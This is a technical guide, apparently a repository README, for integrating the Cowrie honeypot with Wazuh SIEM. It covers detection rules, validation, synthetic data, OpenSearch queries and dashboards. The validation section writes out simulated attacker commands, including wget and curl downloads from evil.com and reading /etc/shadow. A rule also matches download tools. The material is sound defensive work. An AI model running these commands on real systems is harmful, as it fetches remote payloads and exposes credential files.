










# Cowrie Honeypot - Wazuh SIEM Integration

| Field | Value |
| --- | --- |
| **OS** | Ubuntu 24.04 LTS (bare metal) |
| **Wazuh** | v4.14.x - all-in-one (manager + indexer + dashboard) |
| **Cowrie** | Docker image `cowrie/cowrie:latest` |
| **Validated** | 2026-06-12 |
| **Log Format** | JSON (`cowrie.json`) |
| **Documentation Version** | 2.0 |

---

## Table of Contents

1. [Overview](#1-overview)
2. [Environment](#2-environment)
3. [Log Pipeline Architecture](#3-log-pipeline-architecture)
4. [Wazuh Configuration](#4-wazuh-configuration)
5. [Cowrie Rules - `cowrie_rules.xml`](#5-cowrie-rules---cowrie_rulesxml)
6. [Validation](#6-validation)
7. [Synthetic Dataset Generation](#7-synthetic-dataset-generation)
8. [OpenSearch Verification](#8-opensearch-verification)
9. [Dashboard Visualizations](#9-dashboard-visualizations)
10. [Technical Challenges and Fixes](#10-technical-challenges-and-fixes)
11. [Reproduction Workflow](#11-reproduction-workflow)
12. [Operational Notes](#12-operational-notes)

---

## 1. Overview

This document covers the complete integration of the Cowrie SSH/Telnet honeypot with Wazuh SIEM. Cowrie runs in Docker, produces one JSON event per line, and is monitored by Wazuh through a stable symlink path. The integration is designed for SOC visibility, MITRE ATT&CK mapping, OpenSearch indexing, and dashboard-based monitoring.

The workflow follows this model:

```text
Cowrie JSON log -> Wazuh logcollector -> built-in JSON decoder -> custom Cowrie rules -> OpenSearch -> Wazuh Dashboard
```

The ruleset covers eight operational event categories plus one base rule, with emphasis on brute-force attempts, successful compromise of the honeypot, command execution, malware download attempts, and reconnaissance. The dashboard comprises ten panels covering alert volume, event types, malware downloads, rule distribution, severity, source IPs, commands, authentication outcomes, MITRE mapping, and detailed alert inspection.

---

## 2. Environment

### 2.1 Infrastructure

| Component | Details |
| --- | --- |
| Host OS | Ubuntu 24.04 LTS |
| Wazuh Version | 4.14.x |
| OpenSearch | `https://127.0.0.1:9200` |
| Wazuh Dashboard | HTTPS on the lab dashboard endpoint |
| Cowrie Runtime | Docker |
| Container Image | `cowrie/cowrie:latest` |
| Cowrie SSH Port | Host `55222` -> container `2222` |
| Cowrie Telnet Port | Host `55223` -> container `2223` |
| Container Hostname | `svr04` |

### 2.2 Network Note

The host public IPv4 port 22 is used by MITRE Caldera, so the Cowrie honeypot uses high ports (`55222` for SSH and `55223` for Telnet). In the captured lab sessions, the observed source IP is the Docker bridge address. That is expected when the honeypot is accessed locally through Docker bridge networking. In an Internet-exposed deployment, source IP diversity would be higher.

---

## 3. Log Pipeline Architecture

### 3.1 Real Cowrie Log Path Discovery

Cowrie writes the active JSON log to a Docker volume rather than the empty bind-mounted path that may exist on the host. Always identify the real file before configuring Wazuh.

Typical discovery workflow:

```bash
sudo docker ps | grep cowrie
sudo docker inspect <container_id> | grep -A10 Mounts
sudo find /var/lib/docker/volumes/ -name 'cowrie.json' 2>/dev/null
```

### 3.2 Stable Symlink for Wazuh

Create a human-readable symlink so the Wazuh configuration does not depend on a long Docker volume path:

```bash
sudo ln -s /var/lib/docker/volumes/<volume_id>/_data/log/cowrie/cowrie.json /var/log/cowrie.json
ls -la /var/log/cowrie.json
```

### 3.3 `ossec.conf` Localfile Block

Add this block to `/var/ossec/etc/ossec.conf`:

```xml
<!-- ======================== COWRIE HONEYPOT LOGS ======================== -->
<localfile>
  <log_format>json</log_format>
  <location>/var/log/cowrie.json</location>
  <label key="@source">cowrie</label>
  <only-future-events>no</only-future-events>
</localfile>
```

Why this matters:

- `log_format=json` ensures each line is parsed as a JSON object.
- `@source=cowrie` provides a reliable filter for rules and dashboards.
- `only-future-events=no` processes historical content on first load.

---

## 4. Wazuh Configuration

### 4.1 Decoder Strategy

The integration should **not** fight the built-in JSON decoder. Cowrie events are already JSON, and the most reliable design is:

- use the built-in `json` decoder,
- avoid a custom child decoder inheriting from `json`,
- write rules with `<decoded_as>json</decoded_as>`,
- use `<match>` on the raw JSON string for event classification.

### 4.2 Critical JSON Decoder Caution

Before deploying Cowrie, review `/var/ossec/etc/decoders/local_decoder.xml` and remove any decoders that use:

```xml
<parent>json</parent>
```

These decoder patterns can destroy previously extracted JSON dynamic fields and break dashboard aggregations for `data.*` fields.

### 4.3 File Ownership and Validation

```bash
sudo chown root:wazuh /var/ossec/etc/rules/cowrie_rules.xml
sudo chmod 660 /var/ossec/etc/rules/cowrie_rules.xml
sudo /var/ossec/bin/wazuh-analysisd -t
sudo systemctl restart wazuh-manager
```

---

## 5. Cowrie Rules - `cowrie_rules.xml`

Save the following rules in `/var/ossec/etc/rules/cowrie_rules.xml`.

```xml
<!-- ============================================================ -->
<!-- Cowrie Honeypot Rules -->
<!-- Range: 100500-100508 -->
<!-- ============================================================ -->
<group name="cowrie,honeypot,">

  <rule id="100500" level="3">
    <decoded_as>json</decoded_as>
    <match>"eventid":"cowrie.</match>
    <description>Cowrie Honeypot: event detected</description>
    <group>cowrie,</group>
  </rule>

  <rule id="100501" level="6">
    <if_sid>100500</if_sid>
    <match>"eventid":"cowrie.session.connect</match>
    <description>Cowrie: New connection to honeypot</description>
    <mitre>
      <id>T1110</id>
    </mitre>
    <group>cowrie,connection,</group>
  </rule>

  <rule id="100502" level="8">
    <if_sid>100500</if_sid>
    <match>"eventid":"cowrie.login.failed</match>
    <description>Cowrie: Login failed on honeypot</description>
    <mitre>
      <id>T1110.001</id>
    </mitre>
    <group>cowrie,authentication_failed,</group>
  </rule>

  <rule id="100503" level="12">
    <if_sid>100500</if_sid>
    <match>"eventid":"cowrie.login.success</match>
    <description>Cowrie: Login success on honeypot</description>
    <mitre>
      <id>T1110.001</id>
    </mitre>
    <group>cowrie,authentication_success,</group>
  </rule>

  <rule id="100504" level="10">
    <if_sid>100500</if_sid>
    <match>"eventid":"cowrie.command.input</match>
    <description>Cowrie: Command executed in honeypot shell</description>
    <mitre>
      <id>T1059</id>
    </mitre>
    <group>cowrie,command,</group>
  </rule>

  <rule id="100505" level="14">
    <if_sid>100504</if_sid>
    <match>"input":"wget|"input":"curl|"input":"tftp|"input":"ftpget</match>
    <description>Cowrie: Malware download attempt on honeypot</description>
    <mitre>
      <id>T1105</id>
    </mitre>
    <group>cowrie,malware_download,</group>
  </rule>

  <rule id="100506" level="5">
    <if_sid>100500</if_sid>
    <match>"eventid":"cowrie.command.failed</match>
    <description>Cowrie: Command not recognized in honeypot</description>
    <group>cowrie,command_failed,</group>
  </rule>

  <rule id="100507" level="3">
    <if_sid>100500</if_sid>
    <match>"eventid":"cowrie.session.closed</match>
    <description>Cowrie: Session closed</description>
    <group>cowrie,session_closed,</group>
  </rule>

  <rule id="100508" level="6">
    <if_sid>100500</if_sid>
    <match>"eventid":"cowrie.client.version</match>
    <description>Cowrie: SSH client version identified</description>
    <mitre>
      <id>T1046</id>
    </mitre>
    <group>cowrie,recon,</group>
  </rule>

</group>
```

### 5.1 Rule Summary

| Rule ID | Level | Purpose | MITRE |
| --- | ---: | --- | --- |
| 100500 | 3 | Base rule - any Cowrie JSON event | - |
| 100501 | 6 | New connection | T1110 |
| 100502 | 8 | Login failed | T1110.001 |
| 100503 | 12 | Login success | T1110.001 |
| 100504 | 10 | Command input | T1059 |
| 100505 | 14 | Malware download attempt | T1105 |
| 100506 | 5 | Command failed | - |
| 100507 | 3 | Session closed | - |
| 100508 | 6 | SSH client version | T1046 |

---

## 6. Validation

### 6.1 Representative Cowrie Event Types

The integration documentation validated these event families:

- `cowrie.session.connect`
- `cowrie.client.version`
- `cowrie.client.kex`
- `cowrie.client.fingerprint`
- `cowrie.login.failed`
- `cowrie.login.success`
- `cowrie.command.input`
- `cowrie.command.failed`
- `cowrie.session.file_download`
- `cowrie.session.closed`

### 6.2 `wazuh-logtest` Strategy

Use `wazuh-logtest` with raw JSON piped directly into the tool. The goal is to confirm Phase 3 rule hits, not to rely on field extraction display.

Examples:

```bash
echo '{"eventid":"cowrie.login.success","username":"root","src_ip":"172.17.0.1","session":"test01","protocol":"ssh","timestamp":"2026-06-12T07:00:00Z"}' \
| sudo /var/ossec/bin/wazuh-logtest 2>&1 | grep -v WARNING


echo '{"eventid":"cowrie.login.failed","username":"admin","src_ip":"172.17.0.1","session":"test02","protocol":"ssh","timestamp":"2026-06-12T07:05:00Z"}' \
| sudo /var/ossec/bin/wazuh-logtest 2>&1 | grep -v WARNING


echo '{"eventid":"cowrie.command.input","input":"wget http://evil.com/payload.sh","src_ip":"172.17.0.1","session":"test03","protocol":"ssh","timestamp":"2026-06-12T07:10:00Z"}' \
| sudo /var/ossec/bin/wazuh-logtest 2>&1 | grep -v WARNING
```

Expected results:

| Event | Expected Rule | Expected Outcome |
| --- | --- | --- |
| `login.success` | 100503 | Phase 3 hit |
| `session.connect` | 100501 | Phase 3 hit |
| `command.input` with `wget` | 100505 | Phase 3 hit |
| `login.failed` | 100502 | Phase 3 hit |
| `command.failed` | 100506 | Phase 3 hit |
| `session.closed` | 100507 | Phase 3 hit |
| `client.version` | 100508 | Phase 3 hit |

### 6.3 Real Traffic Generation

Generate realistic honeypot traffic directly against Cowrie:

```bash
ssh -p 55222 -o StrictHostKeyChecking=no root@localhost
# Example commands once inside Cowrie shell:
# whoami
# id
# uname -a
# cat /etc/shadow
# wget http://evil.com/malware.sh
# curl http://evil.com/dropper
# exit
```

### 6.4 Optional Username Expansion for Testing

If you want broader username coverage, activate Cowrie's example `userdb.txt` inside the container:

```bash
sudo docker exec <container_id> python3 -c "
import shutil
shutil.copy('/cowrie/cowrie-git/etc/userdb.example', '/cowrie/cowrie-git/etc/userdb.txt')"
```

---

## 7. Synthetic Dataset Generation

To produce realistic data for dashboards without waiting for organic attack traffic, a synthetic dataset was generated and appended to the Cowrie log using a Python script.

### 7.1 Dataset Composition

The dataset contains **145 JSON events** distributed across the following event types:

| Event Type | Count | Rule Triggered |
| --- | ---: | --- |
| `cowrie.session.connect` | 20 | 100501 |
| `cowrie.login.failed` | 30 | 100502 |
| `cowrie.login.success` | 8 | 100503 |
| `cowrie.command.input` (normal commands) | 35 | 100504 |
| `cowrie.command.input` (malware download) | 20 | 100505 |
| `cowrie.command.failed` | 12 | 100506 |
| `cowrie.session.closed` | 10 | 100507 |
| `cowrie.client.version` | 10 | 100508 |
| **Total** | **145** | |

### 7.2 Dataset Key for Filtering

Each synthetic event includes a `dataset` field with a unique identifier (e.g., `cowrie_synthetic_20260611_220053`). This allows precise filtering in the Wazuh Dashboard using DQL:

```text
rule.groups: "cowrie" and data.dataset: "cowrie_synthetic_20260611_220053"
```

### 7.3 Realistic Field Values

The synthetic events include randomized values for fields such as `src_ip` (multiple attacker IPs across different subnets: `192.168.1.x`, `198.51.100.x`, `203.0.113.x`, `172.17.0.x`, `10.10.10.x`), `username` (common brute-force targets: root, admin, pi, ubuntu, oracle, support), `input` (reconnaissance commands like `whoami`, `id`, `uname -a`, `cat /etc/passwd`, `ls -la`, `ps aux`, plus malware download commands using `wget`, `curl`, `tftp`, `ftpget`), and `session` (unique session IDs per event).

---

## 8. OpenSearch Verification

Use Dev Tools to confirm that Cowrie alerts are indexed with extracted JSON fields.

### 8.1 Count alerts for the synthetic dataset

```json
GET wazuh-alerts-*/_count
{
  "query": {
    "bool": {
      "filter": [
        {"term": {"data.dataset": "cowrie_synthetic_20260611_220053"}},
        {"term": {"rule.groups": "cowrie"}}
      ]
    }
  }
}
```

Expected response: count of **145** documents.

### 8.2 Count alerts with structured fields

```json
GET wazuh-alerts-*/_search
{
  "size": 0,
  "query": {
    "bool": {
      "must": [
        {"match": {"rule.groups": "cowrie"}},
        {"exists": {"field": "data.eventid"}}
      ]
    }
  },
  "aggs": {
    "total": {
      "value_count": {
        "field": "data.eventid"
      }
    }
  }
}
```

### 8.3 Distribution by rule, username, eventid, and source IP

```json
GET wazuh-alerts-*/_search
{
  "size": 0,
  "query": {
    "bool": {
      "filter": [
        {"term": {"data.dataset": "cowrie_synthetic_20260611_220053"}},
        {"term": {"rule.groups": "cowrie"}}
      ]
    }
  },
  "aggs": {
    "cowrie_rules": {
      "terms": {"field": "rule.id", "size": 20, "order": {"_count": "desc"}}
    },
    "by_username": {
      "terms": {"field": "data.username", "size": 20}
    },
    "by_eventid": {
      "terms": {"field": "data.eventid", "size": 20}
    },
    "by_srcip": {
      "terms": {"field": "data.src_ip", "size": 20}
    }
  }
}
```

### 8.4 MITRE ATT&CK breakdown

```json
GET wazuh-alerts-*/_search
{
  "size": 0,
  "query": {
    "match": {
      "rule.groups": "cowrie"
    }
  },
  "aggs": {
    "by_mitre_id": {"terms": {"field": "rule.mitre.id", "size": 10}},
    "by_mitre_tactic": {"terms": {"field": "rule.mitre.tactic", "size": 10}}
  }
}
```

### 8.5 Critical alerts

```json
GET wazuh-alerts-*/_search
{
  "query": {
    "bool": {
      "must": [
        {"match": {"rule.groups": "cowrie"}},
        {"range": {"rule.level": {"gte": 10}}}
      ]
    }
  },
  "size": 5,
  "sort": [
    {"timestamp": {"order": "desc"}}
  ]
}
```

### 8.6 Field Mapping Verification

A query to `_mapping` confirmed that `data.src_ip`, `data.username`, `data.input`, and `data.eventid` are mapped as keywords, allowing direct use in terms aggregations without the `.keyword` suffix.

---

## 9. Dashboard Visualizations

Use the Wazuh Dashboard / OpenSearch Dashboards interface with the `wazuh-alerts-*` index pattern.

**Global DQL filter for the synthetic dataset:**

```text
rule.groups: "cowrie" and data.dataset: "cowrie_synthetic_20260611_220053"
```

The dashboard comprises **ten panels** organized across five rows.

---

### Panel 1 - Alert Volume Timeline Bar

**Type:** Vertical Bar
**Title:** `Cowrie: Alert Volume Timeline Bar`

- Filter: `rule.groups is cowrie`
- Metric: `Count`
- X-axis: `Date Histogram` on `timestamp`
- Note: With the synthetic dataset, events appear as a single bar because they were ingested at nearly the same time. With organic traffic, the timeline shows temporal distribution of attacks.



---

### Panel 2 - Honeypot Event Types

**Type:** Pie / Donut
**Title:** `Cowrie: Honeypot Event Types`

- Filter: `rule.groups is cowrie`
- Metric: `Count`
- Split slices: `Terms` on `data.eventid`
- Order: `Count desc`
- Size: `15`
- Shows relative frequency of `command.input` (37.93%), `login.failed` (20.69%), `session.connect` (13.79%), `command.failed` (8.28%), `client.version` (6.9%), `session.closed` (6.9%), and `login.success` (5.52%).



---

### Panel 3 - Malware Download Attempts by Tool

**Type:** Horizontal Bar
**Title:** `Cowrie: Malware Download Attempts by Tool`

- Filter: `rule.groups is cowrie` AND `rule.id is 100505`
- Metric: `Count`
- Y-axis: `Terms` on `data.input`
- Order: `Count desc`
- Size: `10`
- Maps to MITRE T1105 (Ingress Tool Transfer). Shows distribution across `curl`, `ftpget`, `wget`, and `tftp` download commands.



---

### Panel 4 - Alerts by Rule ID

**Type:** Horizontal Bar
**Title:** `Cowrie: Alerts by Rule ID`

- Filter: `rule.groups is cowrie`
- Metric: `Count`
- Y-axis: `Terms` on `rule.id`
- Order: `Count desc`
- Size: `10`
- Confirms rules 100501-100508 triggered as expected, with rule 100504 (command input) generating the highest volume.



---

### Panel 5 - Alert Severity Levels by Rule

**Type:** Vertical Bar
**Title:** `Cowrie: Alert Severity Levels by Rule`

- Filter: `rule.groups is cowrie`
- Y-axis: `Count`
- X-axis: `Histogram` on `rule.level`
- Minimum interval: `1`
- Shows distribution across severity levels: 3 (session events), 5 (command failed), 6 (connections, client version), 8 (login failed), 10 (command execution), 12 (login success), and 14 (malware downloads).



---

### Panel 6 - Top Source IPs

**Type:** Horizontal Bar
**Title:** `Cowrie: Top Source IPs`

- Filter: `rule.groups is cowrie`
- Metric: `Count`
- Y-axis: `Terms` on `data.src_ip`
- Order: `Count desc`
- Size: `10`
- Identifies the most active attacking hosts. In the synthetic dataset, IPs span multiple subnets (`192.168.1.x`, `203.0.113.x`, `198.51.100.x`, `10.10.10.x`, `172.17.0.x`). With port forwarding to the Internet, this panel shows real external attacker IPs.



---

### Panel 7 - Top Commands Executed

**Type:** Horizontal Bar
**Title:** `Cowrie: Top Commands Executed`

- Filter: `rule.groups is cowrie`
- Filter: `data.input exists`
- Metric: `Count`
- Y-axis: `Terms` on `data.input`
- Order: `Count desc`
- Size: `20`
- Shows the full command landscape including reconnaissance commands (`cat /etc/passwd`, `ip a`, `whoami`, `uname -a`, `id`, `ls -la`, `ps aux`, `netstat -tulpen`), malware downloads (`curl`, `wget`, `tftp`, `ftpget`), privilege escalation tools (`linpeas`, `getsystem`), and scanning tools (`masscan_local`, `scanner`).



---

### Panel 8 - Authentication Outcomes

**Type:** Pie / Donut
**Title:** `Cowrie: Authentication Outcomes`

- Filter: `rule.groups is cowrie`
- Filter: `rule.id is 100502 OR rule.id is 100503`
- Metric: `Count`
- Split slices: `Terms` on `rule.description`
- Shows the ratio of failed login attempts (78.95%) vs successful logins (21.05%). In a real deployment, a high success rate would indicate weak honeypot credentials or a targeted attack.



---

### Panel 9 - MITRE ATT&CK Techniques by Rule

**Type:** Pie / Donut
**Title:** `Cowrie: MITRE ATT&CK Techniques by Rule`

- Filter: `rule.groups is cowrie`
- Filter: `rule.mitre.id exists`
- Metric: `Count`
- Split slices: `Terms` on `rule.mitre.id`
- Order: `Count desc`
- Size: `10`
- Distribution: T1110.001 (Password Guessing, 30.89%), T1059 (Command and Scripting Interpreter, 28.46%), T1105 (Ingress Tool Transfer, 16.26%), T1110 (Brute Force, 16.26%), T1046 (Network Service Discovery, 8.13%).



---

### Panel 10 - Recent Alert Details (Discover)

**Type:** Discover saved search
**Title:** `Cowrie: Recent Alert Details Discover`

Saved search in Discover with the following selected fields:

- `timestamp`
- `rule.id`
- `rule.level`
- `rule.description`
- `data.eventid`
- `data.src_ip`
- `data.username`
- `data.input`
- `data.session`
- `data.protocol`



---

### Dashboard Layout

**Title:** `Cowrie Honeypot - SOC Monitoring`

Recommended layout:

- Row 1: Alert Volume Timeline Bar (full width)
- Row 2: Honeypot Event Types + Malware Download Attempts by Tool
- Row 3: Alerts by Rule ID + Alert Severity Levels by Rule
- Row 4: Top Source IPs + Top Commands Executed
- Row 5: Authentication Outcomes + MITRE ATT&CK Techniques by Rule
- Row 6: Recent Alert Details Discover (full width)

---

## 10. Technical Challenges and Fixes

### 10.1 `wazuh-logtest` JSON Limitation

Problem:

`wazuh-logtest` is unreliable for this workflow when JSON field extraction is expected. Phase 2 may show decoder `json` without listing extracted fields.

Fix:

Use `<match>` on the raw JSON string instead of `<field>` conditions for Cowrie rules.

